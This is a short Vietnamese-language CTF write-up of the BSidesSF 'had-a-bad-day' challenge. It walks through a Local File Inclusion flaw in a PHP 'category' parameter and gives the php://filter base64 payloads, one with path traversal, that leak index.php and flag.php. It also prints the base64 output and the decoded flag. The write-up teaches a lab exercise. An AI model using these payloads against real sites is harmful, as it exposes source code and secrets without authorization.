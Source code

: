 ## Writeup
- [Link](https://had-a-bad-day-5b3328ad.challenges.bsidessf.net)
  Can you read flag.php?

- Vào link ta thấy 2 button WOOFERS, MEOWERS
  <img src="./images/home.png">

- Click vào thì ta thấy url có dạng 
  /index.php?category=meowers hay /index.php?category=woofers
  <img src="./images/1.png">
  <img src="./images/2.png">
  Rất quen thuộc với lỗi LFI (Local File Inclusion)
  Ta thử dùng php://filter để test thử, cheat quen thuộc là dùng php://filter/convert.base64-encode/resource=index
- Ta gửi request đến url /index.php?category=php://filter/convert.base64-encode/resource=index và ta có res
  <img src="./images/3.png">
  Có vẻ ta đã đi đúng đường, đề yêu cầu ta read flag.php
  Ta thử dò flag bằng gửi request đến url /index.php?category=php://filter/convert.base64-encode/resource=index/../flag
  <img src="./images/4.png">
  Ta nhận được đoạn hash base64: PCEtLSBDYW4geW91IHJlYWQgdGhpcyBmbGFnPyAtLT4KPD9waHAKIC8vIENURntoYXBwaW5lc3NfbmVlZHNfbm9fZmlsdGVyc30KPz4=
  decode ra ta được flag: CTF{happiness_needs_no_filters}
  <img src="./images/flag.png">
  
